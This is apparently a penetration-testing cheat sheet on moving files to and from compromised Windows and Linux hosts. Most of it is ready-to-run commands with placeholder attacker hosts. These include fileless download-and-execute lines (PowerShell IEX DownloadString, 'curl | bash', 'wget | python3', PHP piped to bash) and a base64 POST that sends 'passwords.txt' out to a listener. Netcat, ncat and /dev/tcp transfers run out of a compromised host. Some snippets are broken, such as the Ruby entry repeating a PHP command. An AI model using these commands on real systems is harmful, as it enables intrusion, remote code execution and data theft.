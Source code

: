 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
<summary><h1>🪟 Windows</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PowerShell Downloads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h4>PowerShell DownloadFile Method</h4></summary>

**Destination Machine: Sync (Wait for the download to finish)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFile('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFile('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Async (Keep using Powershell while downloading)**  

No password
```powershell
(New-Object Net.WebClient).DownloadFileAsync('http://<IP>:<PORT>/<FILE>','C:\Users\Public\<FILE>')
```
Using Credentials
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<PASSWORD>')}).DownloadFileAsync('http://<IP>:<PORT>/<FILE>', 'C:\Users\Public\<FILE>')
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell DownloadString - Fileless Method</h4></summary>

**Destination Machine: Default**  
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>')
```

**Destination Machine: Pipeline input**  
```powershell
(New-Object Net.WebClient).DownloadString('http://<IP>:<PORT>/<FILE>') | IEX
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>PowerShell Invoke-WebRequest</h4></summary>

**Destination Machine: Default**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -OutFile <OUTPUT FILE>
```

**Destination Machine: Authentication**  
```powershell
Invoke-WebRequest -Uri "http://<IP>:<PORT>/<FILE>" -Headers @{"Authorization"="Basic "+[Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes("<USER>:<PASSWORD>"))} -OutFile "C:\Users\Public\<FILE>"
```

**Destination Machine: ByPass Internet Explorer Error**  
```powershell
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -UseBasicParsing | IEX
```

**Destination Machine: Skip SSL validation (PowerShell 7+)**  
```powershell
Invoke-WebRequest -Uri "https://<IP>:<PORT>/<FILE>" -OutFile "<FILE>" -SkipCertificateCheck
```

**Destination Machine: Skip SSL validation (PowerShell 5.1 or previous)**  
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; (New-Object Net.WebClient).DownloadFile("https://<IP>:<PORT>/<FILE>", "<FILE>")
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SMB Downloads</h3></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Default</h4></summary>  

**Source Machine: Create a temporary SMB Share on Linux and place your target file in it** 

```bash
mkdir /tmp/smbshare
cd /tmp/smbshare
mv <FILE> .
chmod 644 <FILE>
sudo impacket-smbserver share -smb2support .
```

**Destination Machine: Download the files**

**Option 1:** Download a single file
```cmd
copy \\<IP>\share\<FILE>
``` 

**Option 2:** Mount the share
```cmd
net use n: \\<IP>\share /persistent:no
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>Using credentials</h4></summary>  

**Source Machine: Create the SMB Server on Linux**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
```

**Destination Machine: Download the files**  

**Mount the share**
```cmd
net use n: \\<IP>\share /user:<USER> <PASSWORD>
```

**Download the file**
```cmd
copy n:\<FILE>
```

**Unmount the share**
```cmd
net use n: /delete /y
```
</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Downloads</h3></summary>  

**Source Machine: Setting up a Python3 FTP Server on Linux**
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21 --user <USER> --password '<USER>'
```

**Destination Machine: Download file using Powershell**
```powershell
(New-Object Net.WebClient -Property @{Credentials = New-Object System.Net.NetworkCredential('<USER>', '<USER>')}).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<FILE>')
```

**Destination Machine: Download file using CMD**  
```cmd
(
  echo open <IP>
  echo user ftpuser ftppass
  echo binary
  echo get <FILE>
  echo bye
) > ftpcommand.txt
ftp -i -v -n -s:ftpcommand.txt
```
---

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h3>PowerShell Uploads</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Encode & Decode</h4></summary>  

**Source Machine: Encode File Using PowerShell** 
```powershell
# 1. Convert File to Base64
[Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))

# 2. Computes the MD5 checksum of a file to verify its integrity.
Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

**Destination Machine: Decode Base64 String on Linux**
```bash
# 1. Save the base64 string to a file
echo "<BASE64STRING>" > encoded.b64

# 2. Decode the base64 to recreate the original file
base64 -d encoded.b64 > decoded.txt

# 3. Verify the MD5 hash matches the Windows version
md5sum decoded.txt
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Web Uploads</h4></summary>  

**Destination Machine (Linux): Installing a Configured WebServer with Upload on Linux**

```bash
pip3 install uploadserver
python3 -m uploadserver --allow-replace 8000
```

**Source Machine (Windows): Upload the file**

```powershell
curl.exe -X POST http://<IP>:<PORT>/upload -F "files=@C:\Users\Cartman\Desktop\FileToUpload.txt"
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h4>PowerShell Base64 Web Upload</h4></summary>  

Script needed: [`linux_file_receiver.py`](../scripts/file_transfers/linux_file_receiver.py)

**Destination Machine (Linux): Destination Machine (Linux): Start Web Server**

```bash
# Start server (default port 4444)
python3 file_receiver.py

# Start server on custom port
python3 file_receiver.py --port <PORT>
```

**Source Machine (Windows): Convert file to Base64 string**

```powershell
$file = "C:\Users\bob\Desktop\passwords.txt"
$b64 = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes($file))
```

**Source Machine (Windows): Send to Linux server**

```powershell
Invoke-WebRequest -Uri "http://<IP>:<PORT>/" -Method POST -Body $b64 -Headers @{"X-Filename"="passwords.txt"} -ContentType "text/plain" -UseBasicParsing
```

**Destination Machine (Linux): Rename and restore original format**

```bash
mv <RECEIVED FILE> <FILE>
```

**Destination Machine (Linux): Verify file integrity**

```bash
file ThisisATextFile.txt
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details> 
<summary><h3>SMB Uploads</h3></summary>  

**Source Machine: Installing WebDav Python modules on Linux**
```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=<PORT> --root=/tmp --auth=anonymous
```

**Destination Machine: Uploading Files using SMB on Windows**
```cmd
# DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server.
dir \\192.168.49.128\DavWWWRoot
copy <FILE PATH> \\<IP>\DavWWWRoot\

# You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \<IP>\sharefolder
copy <FILE PATH> \\<IP>\sharefolder\
```
If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Start our FTP Server on Linux**
```bash
sudo python3 -m pyftpdlib --port 21 --write
```

**Destination Machine: Upload the file on Windows**

Option 1: Upload file using Powershell
```cmd
(New-Object Net.WebClient).UploadFile('ftp://<IP>/ftp-hosts', '<FILE PATH>')
```

Option 2: Create a Command File for the FTP Client to Upload a File
Create a Command File for the FTP Client and Download the Target File
```cmd
echo open <IP> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT <FILE PATH> >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

**Destination Machine: Once in FTP...**
```cmd
USER anonymous
PUT <FILE PATH>
bye
```
</details>
</details>
</details>

---

<details>
<summary><h1>🐧 Linux</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Base64 Encoding / Decoding</h3></summary>  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; 
  
**Check File MD5 hash**  
```bash
md5sum <FILE>
```

**Encode file to Base64**  
```bash
# We copy this content and paste it onto our Linux target machine
cat <FILE> |base64 -w 0;echo
```

**Decode the File**  
```bash
echo -n '<BASE64STRING>' | base64 -d > <OUTPUT FILE>
```

**Confirm the MD5 Hashes Match**  
```bash
md5sum <FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Wget Downloads</h3></summary>  

**Basic Download**  
```bash
wget http://<IP>:<PORT>/<FILE>
```

**Download a folder**

```bash
wget -r -np -nH --cut-dirs=1 -R "index.html*" http://<IP>:<PORT>/<FOLDER>/
```

**Download with Custom Filename**  
```bash
wget -O <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
wget --user=<USER> --password=<PASSWORD> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
wget -qO- http://<IP>:<PORT>/<FILE> | python3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Curl Downloads</h3></summary>

**Basic Download**  
```bash
curl -o <OUTPU_FILE> http://<IP>:<PORT>/<FILE>
```

**Ignore SSL certificate**  
```bash
curl -k -o <OUTPU_FILE> https://<IP>:<PORT>/<FILE>
```

**Download with Custom Filename**  
```bash
curl -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Download with Authentication**  
```bash
curl -u <USER>:<PASSWORD> -o <OUTPUT FILE> http://<IP>:<PORT>/<FILE>
```

**Fileless Download**  
```bash
# Executes it directly
curl http://<IP>:<PORT>/<FILE> | bash
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Download with Bash</h3></summary>

**Connect to the Target Webserver**  
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
```

**HTTP GET Request**  
```bash
echo -e "GET /<FILE> HTTP/1.1\n\n">&3
```

**Print the Response**  
```bash
cat <&3
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SSH Downloads</h3></summary>

**Source Machine: Starting the SSH Server**  
```bash
sudo systemctl enable ssh
sudo systemctl start ssh
```

**Source Machine: Checking for SSH Listening Port**  
```bash
#0.0.0.0:22
netstat -lnpt
```

**Destination Machine: Downloading Files Using SCP**  
```bash
scp user@remote_ip:/remote/path/<FILE> /local/path/
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>  
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Web upload</h3></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>Python UploadServer (Basic)</h4></summary>

**Detination Machine: Start Web Server**

Run in the target directory

```bash
sudo python3 -m pip install --user uploadserver
sudo python3 -m uploadserver <PORT>
```  

**Source Machine: Upload the file**

```bash
curl -F "files=@<FILE>" http://10.10.15.60:4444/upload
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h4>Authenticated Web Server</h4></summary>

**Source Machine: Create server.py**  
```python
# server.py
from http.server import HTTPServer, SimpleHTTPRequestHandler
import base64

class AuthHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        auth = self.headers.get('Authorization')
        if not auth or not auth.startswith('Basic '):
            self.send_response(401)
            self.send_header('WWW-Authenticate', 'Basic realm="Secure Area"')
            self.end_headers()
            return
        
        username, password = base64.b64decode(auth[6:]).decode().split(':', 1)
        if username == '<PORT>' and password == '<PORT>':
            super().do_GET()
        else:
            self.send_response(403)
            self.end_headers()
            self.wfile.write(b'Access denied')

HTTPServer(('0.0.0.0', <PORT>), AuthHandler).serve_forever()
```

**Source Machine: Start Web Server**  
```bash
sudo python3 server.py
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>SCP Uploads</h3></summary>  
  
**Upload to Remote Server**  
```bash
scp <FILE> <USER>@<IP>:~
```

**Upload with Custom Port**  
```bash
scp -P <PORT> <FILE> <USER>@<IP>:~
```

**Upload with Key Authentication**  
```bash
scp -i <KEY FILE> <FILE> <USER>@<IP>:~
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>FTP Uploads</h3></summary>

**Source Machine: Using FTP Command**  
```bash
ftp <IP>
# Once connected:

put <FILE>
```

**Source Machine: Using lftp**  
```bash
lftp -u <USER>,<PASSWORD> <IP>

# Once connected:
put <FILE>
```

</details>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Alternative Web File Transfer Method</h3></summary>
A compromised Linux machine may not have a web server installed. In such cases, we can use a mini web server.

**Source Machine: Creating a Web Server with Python3**  
```bash
python3 -m http.server 8000
```

**Source Machine: Creating a Web Server with Python2.7**  
```bash
python2.7 -m SimpleHTTPServer 8000
```

**Source Machine: Creating a Web Server with PHP**  
```bash
php -S 0.0.0.0:8000
```

**Source Machine: Creating a Web Server with Ruby**  
```bash
php -S 0.0.0.0:8000
```

> **_Destination Machine:_**  Refer to the "Downloads" section for available transfer methods.

</details>
</details>
</details>

---

<details>
<summary><h1>💻 Code</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📥 Downloads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```

**Python 2**
```python
python2.7 -c 'import urllib;urllib.urlretrieve ("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>")'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>PHP</h3></summary>

**PHP Download with File_get_contents()**
```php
php -r '$file = file_get_contents("http://<IP>:<PORT>/<FILE>"); file_put_contents("<OUTPUT FILE>",$file);'
```  
  
**PHP Download with Fopen()**
```php
php -r 'const BUFFER = 1024; $fremote = 
fopen("http://<IP>:<PORT>/<FILE>", "rb"); $flocal = fopen("<OUTPUT FILE>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```    

**PHP Download a File and Pipe it to Bash**
```php
php -r '$lines = @file("http://<IP>:<PORT>/<FILE>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```    


</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ruby</h3></summary>

```ruby
ruby -e 'require "net/http"; File.write("<OUTPUT FILE>", Net::HTTP.get(URI.parse("http://<IP>:<PORT>/<FILE>")))'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Perl</h3></summary>

```perl
perl -e 'use LWP::Simple; getstore("http://<IP>:<PORT>/<FILE>", "<OUTPUT FILE>");'
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>JavaScript</h3></summary>

**Create the script wget.js**
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.js http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>VBScript</h3></summary>

**Create the script wget.vbs**
```vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```  
  
**Execute the script on Windows (CMD or Powershell)**
```cmd
cscript.exe /nologo wget.vbs http://<IP>:<PORT>/<FILE> <OUTPUT FILE>
```    

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>📤 Uploads</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Python</h3></summary>

**Python 3**
```python
python3 -c 'import requests;requests.post("http://<IP>:<PORT>/uploads/path/",files={"files":open("<LOCAL FILE>")})'
```
</details>
</details>
</details>

---

<details>
<summary><h1>🧰 Miscellaneous</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>NC</h2></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Netcat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
nc -lvnp 8000 > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
nc -q 0 <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

Instead of listening on the compromised machine, you can listen on your attack host and have the compromised machine connect out. This is useful when inbound connections are blocked by a firewall.

**Destination Machine: Connects to Source Machine and receives file**
```bash
nc <IP> 443 > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo nc -l -p 443 -q 0 < <LOCAL FILE>
```

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Ncat</h3></summary>

**Destination Machine: Listening on Port 8000**
```bash
ncat -l -p 8000 --recv-only > <OUTPUT FILE>
```

**Source Machine: Sending File**
```bash
ncat --send-only <IP> 8000 < <LOCAL FILE>
```

**Reverse File Transfer (Outbound Connection from Compromised Host)**

**Destination Machine: Connects to Source Machine and receives file**
```bash
ncat <IP> 443 --recv-only > <OUTPUT FILE>
```

**Source Machine: Listening and sending file as input to Ncat**
```bash
sudo ncat -l -p 443 --send-only < <LOCAL FILE>
```  

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Bash /dev/tcp</h3></summary>

If Netcat or Ncat are not available, Bash can use the pseudo-device `/dev/tcp/host/port` for file transfers.

**Destination Machine: Receive file using /dev/tcp**
```bash
cat < /dev/tcp/<IP>/443 > <OUTPUT FILE>
```

> **NOTE:**  This method can also be used to transfer files from the compromised host to your Source Machine by reversing the direction of the connection.

</details>
</details>

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h1>RDP</h1></summary>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Clipboard</h3></summary>

You can transfer files between your local machine and a remote Windows host using the RDP clipboard (copy-paste) feature. This is supported by most RDP clients if clipboard redirection is enabled.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Ensure "Clipboard" is checked.
4. Connect to the remote host.
5. Copy files on your local machine and paste them into the remote desktop (or vice versa).

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via RDP Shared Drives</h3></summary>

You can map a local drive to the remote session, making it accessible from the remote host.

**On your RDP client (Windows mstsc.exe):**
1. Open `mstsc.exe`.
2. Go to "Show Options" > "Local Resources" tab.
3. Click "More..." under "Local devices and resources".
4. Check the drives you want to share.
5. Connect to the remote host.
6. The shared drive will appear in "This PC" or "My Computer" on the remote desktop, allowing you to copy files between systems.

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Transfer via xfreerdp (Linux)</h3></summary>

If you are using Linux, you can use `xfreerdp` to enable clipboard and drive redirection.

**Clipboard (copy-paste):**
```bash
xfreerdp /v:<IP> /u:'<USER>' /p:'<PASSWORD>' +clipboard
```

**Share a local folder (e.g., /tmp/share):**
```bash
xfreerdp /v:<IP> /u:'<USER>' /p:'<PASSWORD>' +clipboard /drive:share,/tmp/share
```
The shared folder will appear as a drive on the remote Windows session.

</details>
</details>
</details>

---

<details>
<summary><h1>🔒 Protected File Transfers</h1></summary>

> **NOTE:**  Unless specifically requested by a client, we do not recommend exfiltrating data such as Personally Identifiable Information (PII), financial data (i.e., credit card numbers), trade secrets, etc., from a client environment. Instead, if attempting to test Data Loss Prevention (DLP) controls/egress filtering protections, create a file with dummy data that mimics the data that the client is trying to protect.

> **NOTE:**  Remember to use a strong and unique password to avoid brute-force cracking attacks should an unauthorized party obtain the file.

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Windows</h2></summary>

Many different methods can be used to encrypt files and information on Windows systems. One of the simplest methods is the [`Invoke-AESEncryption.ps1`](../scripts/file_transfers/Invoke-AESEncryption.ps1) PowerShell script. This script is small and provides encryption of files and strings.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Invoke-AESEncryption.ps1</h3></summary>

**Installation & Configuration**

```powershell
$moduleCode = @'
function Invoke-AESEncryption {
    [CmdletBinding()]
    [OutputType([string])]
    Param
    (
        [Parameter(Mandatory = $true)]
        [ValidateSet('Encrypt', 'Decrypt')]
        [String]$Mode,

        [Parameter(Mandatory = $true)]
        [String]$Key,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
        [String]$Text,

        [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
        [String]$Path
    )

    Begin {
        $shaManaged = New-Object System.Security.Cryptography.SHA256Managed
        $aesManaged = New-Object System.Security.Cryptography.AesManaged
        $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
        $aesManaged.BlockSize = 128
        $aesManaged.KeySize = 256
    }

    Process {
        $aesManaged.Key = $shaManaged.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))

        switch ($Mode) {
            'Encrypt' {
                if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName + ".aes"
                }

                $encryptor = $aesManaged.CreateEncryptor()
                $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
                $encryptedBytes = $aesManaged.IV + $encryptedBytes
                $aesManaged.Dispose()

                if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File encrypted to $outPath"
                }
            }

            'Decrypt' {
                if ($Text) {$cipherBytes = [System.Convert]::FromBase64String($Text)}
                
                if ($Path) {
                    $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
                    if (!$File.FullName) {
                        Write-Error -Message "File not found!"
                        break
                    }
                    $cipherBytes = [System.IO.File]::ReadAllBytes($File.FullName)
                    $outPath = $File.FullName -replace ".aes"
                }

                $aesManaged.IV = $cipherBytes[0..15]
                $decryptor = $aesManaged.CreateDecryptor()
                $decryptedBytes = $decryptor.TransformFinalBlock($cipherBytes, 16, $cipherBytes.Length - 16)
                $aesManaged.Dispose()

                if ($Text) {return [System.Text.Encoding]::UTF8.GetString($decryptedBytes).Trim([char]0)}
                
                if ($Path) {
                    [System.IO.File]::WriteAllBytes($outPath, $decryptedBytes)
                    (Get-Item $outPath).LastWriteTime = $File.LastWriteTime
                    return "File decrypted to $outPath"
                }
            }
        }
    }

    End {
        $shaManaged.Dispose()
        $aesManaged.Dispose()
    }
}
'@

# Create the directory for the current user
$modulePath = "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt"
if (!(Test-Path $modulePath)) {
    New-Item -ItemType Directory -Path $modulePath -Force
}

# Save the module
$moduleCode | Out-File "$modulePath\AESCrypt.psm1" -Encoding utf8

# Import the module
Import-Module AESCrypt -Force

```

> **NOTE:**  To install globally (admin required), use the following route: **$modulePath = "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AESCrypt"**

</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>File Encryption Examples</h3></summary>

Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Text "<STRING>" 
```

Decrypts the Base64 encoded string and outputs plain text.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Text "<BASE64STRING>" 
```

Encrypts the file and outputs an encrypted file ".aes".
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "<PASSWORD>" -Path <FILE>
```

Decrypts the ".aes" file and outputs an decrypted file.
```powershell
Invoke-AESEncryption -Mode Decrypt -Key "<PASSWORD>" -Path <AES FILE>
```
</details>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h3>Uninstall module</h3></summary>

**Uninstall for current user**
```powershell
Remove-Module AESCrypt -ErrorAction SilentlyContinue
Remove-Item "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt" -Recurse -Force
```

**System-wide uninstall (admin required)**
```powershell
Remove-Module AESCrypt -ErrorAction SilentlyContinue
Remove-Item "C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AESCrypt" -Recurse -Force
```

**Verify Uninstallation**
```powershell
Get-Module AESCrypt -All | Remove-Module -ErrorAction SilentlyContinue
if (!(Test-Path "$env:USERPROFILE\Documents\WindowsPowerShell\Modules\AESCrypt")) {
    Write-Output "Module completely removed"
}
```

</details>
</details>
&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>File Encryption on Linux</h2></summary>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<details>
